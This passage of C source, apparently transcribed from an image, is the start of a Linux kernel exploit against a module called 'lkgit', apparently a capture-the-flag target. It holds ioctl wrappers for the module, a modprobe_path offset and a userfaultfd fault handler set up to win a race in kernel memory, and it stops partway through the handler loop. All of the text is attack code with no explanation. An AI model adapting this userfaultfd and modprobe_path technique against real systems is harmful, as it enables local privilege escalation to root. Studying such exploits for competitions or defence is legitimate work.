 ```c
  char message[MESSAGE_MAXSZ];
} log_object;

unsigned long kernel_base = 0;
unsigned long modprobe_path = 0xe3cb20 - 0x200000;
int lkgit_fd;
char *addr;
hash_object hobj;

void hash_obj();
void get_obj();
void amend_msg();

void hash_obj()
{
    ioctl(lkgit_fd, LKGIT_HASH_OBJECT, &hobj);
}

void get_obj(log_object *lobj)
{
    ioctl(lkgit_fd, LKGIT_GET_OBJECT, lobj);
}

void amend_msg(log_object *lobj)
{
    ioctl(lkgit_fd, LKGIT_AMEND_MESSAGE, lobj);
}

void perr(const char *msg)
{
    puts(msg);
    exit(1);
}

void showgx(unsigned long *data, unsigned num)
{
    for (int i = 0; i < num; i += 8)
        printf("%02x\t%016lx\n", i, data[i/8]);
}

static int page_size;
int fds[0x80];

void *uf_handler(void *arg)
{
    static char *page = NULL;
    static struct uffd_msg msg;
    static int fault_cnt = 0;
    struct uffdio_copy uffdio_copy;
    long uffd;

    uffd = (long) arg;
    if (page == NULL)
        page = mmap(NULL, page_size, PROT_READ | PROT_WRITE,
                   MAP_PRIVATE | MAP_ANONYMOUS, -1, 0);
    if (page == MAP_FAILED)
           perr("[-] uf_handler mmap failed");

    while (1)
    {
        struct pollfd pollfd;
        size_t nready;
        int nread;
```
